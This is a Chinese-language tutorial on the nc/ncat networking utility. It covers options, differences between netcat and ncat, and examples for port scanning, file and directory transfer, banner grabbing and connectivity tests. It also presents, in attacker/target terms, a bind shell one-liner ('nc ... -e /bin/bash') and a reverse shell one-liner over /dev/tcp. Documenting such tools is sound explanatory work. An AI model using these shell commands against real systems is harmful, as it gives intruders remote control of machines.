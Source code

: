 ###### datetime:2024-04-17 09:27:00

###### author:nzb

## nc(ncat)

Ncat is a feature-packed networking utility which reads and writes data across networks from the command line；

- `nc(ncat)`：`Ncat`是一个功能丰富的网络实用工具；支持端口监听、远程通信、文件传输、端口扫描、反向Shell、端口转发功能；

- 格式：`ncat [OPTIONS...] [hostname] [port]`

- 常用参数：

| OPTIONS | 意义 | 
| :---: | ----- | 
| -l |  使用监听模式，意味着`nc`被当作`server`，侦听并接受连接，而非向其它地址发起连接 |
| -p |  设置本地主机使用的通信端口 |
| -s |  设置本地主机送出数据包的IP地址 |
| -u |  使用UDP传输协议 |
| -v |  显示指令执行过程 |
| -w |  设置等待连线的时间 |
| -z |  使用0输入/输出模式，只在扫描通信端口时使用 |

### nc、netcat、ncat区别：

- `nc`与`netcat`是一个组件，`ncat`是`nmap`分支下的一个命令；
- `nc / ncat` 在 `CentOS` 上是同一个命令工具，是一个功能丰富的网络实用程序，可通过命令行在网络上读写数据；
- 使用 `ncat` 时，尽量不要使用 `nc`，避免与 `netcat` 冲突；
- 若安装了 `ncat` 时，`nc、netcat`都成了 `ncat` 的 `alias` ，命令行里输入这三者都是一样的；
- `netcat` 和 `ncat` 的 `-z` 参数是不相等的；
- 可通过 `rpm -qa|grep nc` 命令，查看 `nc` 是指 `netcat` 还是 `ncat` ；
- `Ncat` 是在原始 `Netcat` 之上新增功能二次开发的另一款强大工具，也就是说 `Netcat` 有的功能 `Ncat` 都具备，并且 `Ncat` 还有更多强大的功能。

### 参考案例：

- 扫描80端口

```shell
# nc可用ncat代替
$ nc -nvv 192.168.3.1 80
```

- 远程通信

```shell
# ncat 命令在20000端口启动了一个tcp 服务器，所有的标准输出和输入会输出到该端口;
# 输出和输入都在此shell中展示
Server$ nc -l 20000

Client$ nc [Server-IP] 20000
```

- 文件传输

```shell
# 从Client传输文件到Server
# 需要在Server上使用nc监听,server上运行监听命令;
Server$ nc -lp 12345 >> test.log
# Client运行传输命令
Client$ nc -w 1 [Server-IP] 12345 < xxx.log

# 从Server传输文件到Client
# 需要在Server上使用nc监听,server上运行监听命令;
Server$ nc -lp 12345 < test.log
# Client运行传输命令
Client$ nc -w 1 [Server-IP] 12345 > xxx.log
```

- 目录传输

```shell
# 从Client传输文件到Server上;需要在Server上使用nc监听,server上运行监听命令;
# tar zxvf -  通过tar zxvf解压,从管道接收到的数据,`-`表示从管道接收数据;
Server$ nc -l 23456|tar zxvf -

# tar zcvf -  通过tar zcvf压缩,将目录`Directory`压缩后传输到管道中;`-`表示输出到管道中;
Client$ tar zcvf - [Directory] | nc [Server-IP] 23456
```

- 抓取`Banner`信息

```shell
# 一旦发现开放的端口，可以容易的使用ncat 连接服务抓取他们的banner
$ nc -v 172.31.100.7 21
```

- 正向`Shell`

正向`shell`是指攻击机主动连接靶机，并取得`shell`。通俗点说就是靶机自己绑定某个端口，等攻击机连接后将收到的数据给`bash`或`cmd`(后文简称`shell`)，执行结果再丢给攻击机。

```shell
# 正向shell是目标机(被攻击方)先执行nc命令，然后攻击机(攻击方)上再进行nc连接，即可反弹shell
# 正向shell需要目标机安装nc
# 正向shell 需要目标机firewalld可过滤

# target: 目标服务器系统(被攻击方)
target$ nc -lkvp 7777 -e /bin/bash

# attack: 攻击者系统(攻击方)
attack$ nc [Target-IP] 7777
```

- 反向`shell`

反向`shell`就是靶机带着`shell`来连攻击机，好处显而易见就是不用担心防火墙的问题了，当然也不是没有缺点；缺点就是攻击机的IP必须能支持靶机的主动寻址，
换句话来说就是攻击机需要有公网IP地址；举个例子如攻击机是内网ip或经过了NAT，靶机是公网IP，即使取得了命令执行权限靶机也无法将shell弹过来，这是网络环境的问题。

```shell
# attack: 攻击者系统(攻击方)
# -k: 当客户端从服务端断开连接后，过一段时间服务端也会停止监听;通过选项 -k 可以强制服务器保持连接并继续监听端口;即使来自客户端的连接断了server也依然会处于待命状态;
attack$ nc -lkvnp 6677

# target: 目标服务器系统(被攻击方)
# -i: 指定断开的时候,单位为秒
Client$ sh -i >& /dev/tcp/192.168.188.69/6677 0>&1
```

- 测试网速

```shell
# 服务端
Server$ nc -l <port> > /dev/null

# 客户端
Client$ nc [Server-IP] <port> < /dev/zero

```

- 测试连通性
    - 测试tcp一般会想到使用`telnet`
    - `telnet`不支持`udp`协议，所以我们可以使用`nc`，`nc`可以支持`tcp`也可以支持`udp`

```shell
# 测试tcp端口连通性
# nc -vz ip tcp-port
$ nc -zv 192.168.188.188 5432
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.188.188:5432.
Ncat: 0 bytes sent, 0 bytes received in 0.01 seconds.

# 测试udp端口连通性
# nc -uvz ip udp-port
$ nc -uzv 192.168.188.188 7899
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Connected to 192.168.188.188:7899.
Ncat: Connection refused.
```

- 端口监听

```shell
# 临时监听TCP端口
# nc -l port >> filename.out 将监听内容输入到filename.out文件中
$ nc -l 7789 >> a.out

# 永久监听TCP端口
# nc -lk port
$ nc -lk 7789 >> a.out

# 临时监听UDP
# nc -lu port
$ nc -lu 7789 >> a.out

# 永久监听UDP
# nc -luk port
$ nc -luk 7789 >> a.out
```